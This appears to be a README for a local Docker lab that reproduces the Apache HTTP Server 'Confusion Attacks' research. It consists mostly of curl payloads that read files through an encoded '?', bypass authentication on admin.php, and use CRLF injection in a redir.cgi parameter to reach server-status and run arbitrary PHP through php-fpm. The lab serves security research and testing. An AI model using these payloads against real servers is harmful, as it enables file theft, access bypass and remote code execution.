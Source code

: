 # Docker test

Confusion Attacks: Exploiting Hidden Semantic Ambiguity in Apache HTTP Server!

https://blog.orange.tw/2024/08/confusion-attacks-en.html

```
docker build -t apache-lab .
docker run --rm -it --name my-running-app -p 8090:80 apache-lab
```

## Read file

```
curl 'http://localhost:8090/user/orange/secret.yml%3f'
curl http://localhost:8090/html/usr/share/doc/mount/mount.txt%3f
```

## Bypass Auth

```
curl 'http://localhost:8090/admin.php'
curl 'http://localhost:8090/admin.php%3foooo.php'
```

## Server Status

```
curl 'http://localhost:8090/cgi-bin/redir.cgi?r=http://%0d%0aLocation:/ooo%0d%0aContent-Type:server-status%0d%0a%0d%0a'
```

## Run arbitrary PHP

```
curl 'http://localhost:8090/cgi-bin/redir.cgi?r=http://%0d%0aLocation:/ooo?%0d%0aContent-Type:proxy:unix:/run/php/php8.2-fpm.sock|fcgi://127.0.0.1/usr/share/anyscript.php%3f%0d%0a%0d%0a'

```
